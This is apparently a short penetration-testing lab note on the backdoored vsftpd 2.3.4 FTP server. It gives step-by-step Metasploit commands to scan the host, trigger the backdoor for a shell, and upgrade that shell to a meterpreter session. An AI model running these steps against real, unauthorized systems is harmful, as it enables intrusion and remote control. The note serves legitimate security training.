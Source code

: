 + FTP (File Transfer Protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients.

+ It is also frequently used as a means of transferring files to and from the directory of a web server.

+ `vsftpd` is an FTP server for Unix-like systems including Linux systems and is the default FTP server for Ubuntu, CentOS and Fedora.

+ `vsftpd V2.3.4` is vulnerable to a command execution vulnerability that is facilitated by a malicious backdoor that was added to the `vsftpd` download archive through a supply chain attack. 

### How to exploit ?

1. Perform a scan with `db_nmap`.

2. Exploiting `VSFTPD V2.3.4` to execute backdoor commands.
```
use exploit/unix/ftp/vsftpd_234_backdoor
```

3. Initially we'll get a command shell session, we'll update it to a `meterpreter` session.
```
use post/multi/manage/shell_to_meterpreter
```

4. Type sessions to see the list of available sessions, use the `meterpreter` session to interact with the device.